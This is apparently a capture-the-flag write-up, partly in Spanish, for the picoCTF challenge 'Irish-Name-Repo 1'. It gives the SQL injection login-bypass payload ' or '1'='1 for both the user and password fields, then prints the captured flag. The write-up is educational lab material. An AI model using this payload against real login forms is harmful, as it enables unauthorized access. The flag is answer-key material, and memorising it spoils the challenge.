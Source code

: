 # Irish-Name-Repo 1

# Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
# Pistas
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?

Try to think about how the website verifies your login.
# Solución

```bash

# Inyeccion sql

user: ' or '1'='1`  password: ' or '1'='1

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```

# Bandera
picoCTF{s0m3_SQL_f8adf3fb}

# Referencias
https://www.w3schools.com/sql/sql_injection.asp